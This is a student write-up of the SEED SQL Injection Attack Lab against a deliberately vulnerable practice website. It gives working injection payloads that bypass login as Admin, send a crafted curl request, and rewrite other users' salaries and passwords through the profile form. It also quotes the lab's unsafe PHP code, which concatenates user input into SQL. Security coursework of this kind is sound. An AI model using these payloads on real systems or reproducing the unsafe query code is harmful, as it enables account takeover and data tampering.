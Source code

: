 ```yaml
---
title: SQL Injection Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS record in `/etc/hosts` on the attacker:

```
10.0.2.4       www.SeedLabSQLInjection.com
```

# Task 1

Log in MYSQL:

```
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
```

Use such a SQL query:

```sql
select * from credential where Name = 'Alice';
```

![](./alice_profile.png)

# Task 2

## Task 2.1

- **USERNAME**: `"Admin' #"`
- **PASSWORD**: `"xyz"` whatever you like, it doesn't matter.

It will result in a SQL query as:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='xyz'
```

Then statements after `#` will be regarded as comments. So we can log in as `Admin`.

![](./full_records.png)

## Task 2.2

```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```

It will return a bunch of `html` code. when exporting outputs to file by `> temp.html` and open it, it looks like:

![](./html_look.png)

It contains all information we need but lacks the layout controls by a specified `CSS` file.

## Task 2.3

We need to inject such a statement to append a row to current database:

```sql
INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514');
```

So construct:

- **USERNAME**: `"a' OR 1=1; INSERT INTO credential (name, eid) VALUES ('YJSNPI','114514') #"`
- **PASSWORD**: `""` (remain blank)

It fails and alerts with a syntax error:

![](./fail.png)

Because in PHP's `mysqli` extension, which invokes [`mysqli::query`](https://www.php.net/manual/en/mysqli.query.php) API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

# Task 3

It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

# Task 3.1

Log in with Alice's username and password, enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify **Phone Number** as `', Salary=1000000` and save.

## Task 3.2

Log in with username `Boby' #` and arbitrary password, open his profile edit page.

Fill in with:

**Phone Number**: `', Salary=0`

And keep other properties unchanged. Submit the modification.

Now, you can see:

![](./boby_salary.png)

### Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the **Phone Number** as

```
', Salary=1 where name='Boby' #
```

## Task 3.3

Of course, the simplest approach is to log-in as Boby like [Task 3.2](#task-32) and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in `unsafe_edit_backend.php`, if **Password** is to be updated, the session's `pwd` will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

```PHP
$conn = getDB();
// Don't do this, this is not safe against SQL injection attack
$sql="";
if($input_pwd!=''){
// In case password field is not empty.
$hashed_ = sha1($input_pwd);
//Update the password stored in the session.
$_SESSION['pwd']=$hashed_pwd;
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
}else{
// if passowrd field is empty.
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
}
$conn->query($sql);
$conn->close();
header("Location: unsafe_home.php");
exit();
```

We should do all things in **Phone Number** field.

Assume we want to change Boby's password as `soudayo`. First, we should get SHA1 value of our new password via some [online tool](http://www.sha1-online.com/) as

```
c0b656d5e415ca1a8e098a408f913ec229e120b6
```

Then construct **Phone Number** as:

```
', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
````

and save. Now, the change works. You can log in with username `Boby` and password `soudayo`.

Verify:

![](./soudayo.png)

# Countermeasure

*leave it alone, to keep vulnerable for testing.*